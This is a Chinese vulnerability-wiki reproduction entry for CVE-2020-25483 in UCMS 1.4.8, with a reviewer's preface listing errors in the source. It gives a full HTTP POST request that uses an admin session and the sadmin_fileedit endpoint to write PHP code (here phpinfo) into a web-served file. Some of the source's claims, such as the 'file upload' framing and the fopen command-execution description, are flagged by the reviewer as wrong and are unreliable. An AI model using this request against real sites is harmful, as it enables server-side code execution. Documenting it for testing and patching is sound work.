



## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；默认公开示例、攻击表达式和其他 Cookie 语义保持原样。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台sadmin_fileedit权限及uuu_token，目标路径可写/执行PHP

- **事实待核（1）**：UCMS误置MyuCMS目录，产品独立；标题文件上传但实际后台co参数编辑/写PHP。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（2）**：fopen函数存在任意命令执行说法错误，风险在应用允许不可信内容写可执行文件。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（3）**：安装链接显示http:///但目标是opensis路径，明显复制污染；HTTP头间空行破坏原始请求格式。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（4）**：管理员权限/预期文件编辑安全边界未论证，token和密码cookie应占位。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# UCMS 文件上传漏洞 CVE-2020-25483

## 漏洞描述

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

## 环境搭建

到官网http://uuu.la/下载源码（http://uuu.la/uploadfile/file/ucms_1.4.8.zip），解压到web目录，访问[http:///install/index.php](http://127.0.0.1/opensis/install/index.php)进行安装。

访问/ucms/login.php，显示正常及环境安装成功。




## 漏洞复现

登录账户




poc：

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包。

写入php代码，发送。

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1

Host: ucms.com

Content-Length: 58

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://ucms.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: admin_213f42=admin; psw_213f42=0ef**************************c0a; token_213f42=78012aac

Connection: close


uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

get /1.php




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
